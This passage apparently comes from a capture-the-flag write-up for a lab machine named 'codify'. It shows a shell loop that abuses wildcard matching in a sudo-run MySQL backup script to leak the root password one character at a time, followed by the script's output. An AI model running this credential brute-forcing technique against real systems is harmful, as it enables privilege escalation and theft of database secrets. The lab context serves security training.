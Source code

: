 ```shell
joshua@codify:/opt/scripts$ for c in {a..z} ; do echo "Trying $c*..." && echo "$c*" |sudo /opt/scripts/mysql-backup.sh | grep confirmed ; done
Trying a*...
Trying b*...
Trying c*...
Trying d*...
Trying e*...
Trying f*...
Trying g*...
Trying h*...
Trying i*...
Trying j*...
Trying k*...
Password confirmed!
mysql: [Warning] Using a password on the command line interface can be insecure.
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
Trying l*...
Trying m*...
Trying n*...
Trying o*...
Trying p*...
Trying q*...
Trying r*...
Trying s*...
Trying t*...
Trying u*...
Trying v*...
Trying w*...
Trying x*...
Trying y*...
Trying z*...
```

The first letter of the root password is "k".

```shell
joshua@codify:/opt/scripts$ sudo /opt/scripts/mysql-backup.sh
Enter MySQL password for root: 
Password confirmed!
mysql: [Warning] Using a password on the command line interface can be insecure.
Backing up database: mysql
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
Backing up database: sys
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
All databases backed up successfully!
Changing the permissions
Done!
```
